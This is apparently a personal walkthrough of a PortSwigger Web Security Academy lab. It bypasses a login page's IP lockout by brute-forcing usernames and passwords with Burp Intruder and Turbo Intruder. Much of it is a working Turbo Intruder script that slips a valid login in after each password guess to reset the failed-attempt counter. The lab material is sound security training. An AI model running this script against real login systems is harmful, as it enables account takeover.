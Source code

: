 2. with intruder craft a brute force on the username parameters, using the usernames.txt provided by the lab
```
POST /login HTTP/1.1
..

username=§wiener§&password=peter
```
observe that after 3 failed attempts IP is locaked.
lets try to bypass it:



lets see if login-in to our own account affect the counter:
to build an attack that every second attempt will be a valid credential to reset failed attempts timer we will use Turbo Intruder as follow:
1. if not installed - install Turbo Intruder from BApp and right click the login request and send it to Turbo Intruder
2. on turbo intruder lets tweek the example/misc.py to this code:
```python
#1. define connection parameters:
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, 
                           concurrentConnections=1,
                           requestsPerConnection=1,
                           pipeline=False,
                           maxQueueSize=3,
                           timeout=5,
                           maxRetriesPerRequest=3,
                           autoStart=False
                           )
    engine.start(timeout=5)

    # 2. reset request:
    counterreset = """POST /login HTTP/1.1
Host: 0a9800fc0374620ac05c36b500e8004c.web-security-academy.net
Content-Length: 30

username=wiener&password=peter"""

    #3. check process:   
    for word in open('/home/kali/Documents/Portswigger_labs/Broken Authentication /passwords.txt'):
        engine.queue(target.req, word.rstrip())
        engine.queue(counterreset)

# 4. filter:
def handleResponse(req, interesting):
    if '302' in req.response:
        table.add(req)
   
```
1. **connection parameters** - after much trial and error i found that using **concurrentConnections=1**,and **requestsPerConnection=1** and limiting the **maxQueueSize=3**
allows the reset logic to work proprely
